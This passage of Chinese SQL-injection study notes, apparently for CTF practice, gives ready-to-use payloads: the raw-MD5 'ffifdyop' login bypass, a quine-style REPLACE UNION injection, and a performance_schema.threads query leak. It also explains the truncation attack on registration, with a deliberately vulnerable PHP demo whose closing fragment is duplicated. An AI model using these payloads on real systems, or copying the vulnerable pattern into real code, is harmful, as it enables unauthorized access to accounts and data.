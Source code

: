 payload如下

```
ffifdyop        //md5(’ffifdyop',true) === $a; $a="'or'1";
```

#### 3.2 有回环验证

##### 3.2.1 利用REPLACE

```sql
'UNION SELECT REPLACE(REPLACE('"UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS pw#',CHAR(34),CHAR(39)),CHAR(36),'"UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS pw#') AS pw#
```

##### 3.2.2 利用线程表

```SQL
1'union/**/select/**/mid(`11`,65,217)/**/from(select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,1
4,15,16,17/**/union/**/select/**/*/**/from/**/performance_schema.threads/**/where/**/na
me/**/like'%connection%'/**/limit/**/1,1)t#
```

#### 3.3 利用注册

可以用约束攻击

看下面第4点

# 4 约束攻击

**条件**

有表里有控制长度

**原理**

INSERT语句：截取前20个字符

SELECT语句：输入什么就是什么

所以insert一个”admin “

那么select的时候就可以绕过”此用户已注册“，但是后续insert却只截取admin（空格也被省略了），

demo

```php
<?php
$conn=mysqli_connect('127.0.0.1:3306','root','root','db');
if(!$conn){
    die('Connection failed: '.mysqli_connect_error());
}
$username=addslashes(@$_POST['username']);//非常安全的转义函数
$password=addslashes(@$_POST['password']);
$sql="select * from users where username='$username';";
$rs=mysqli_query($conn,$sql);
if($rs->fetch_row()){
    die('账号已注册');
}else{
    $sql2="insert into users values('$username','$password');";
    mysqli_query($conn,$sql2);
    die('注册成功');
}
<?php
$conn=mysqli_connect('127.0.0.1:3306','root','root','db');
if(!$conn){
    die('Connection failed: '.mysqli_connect_error());
}
```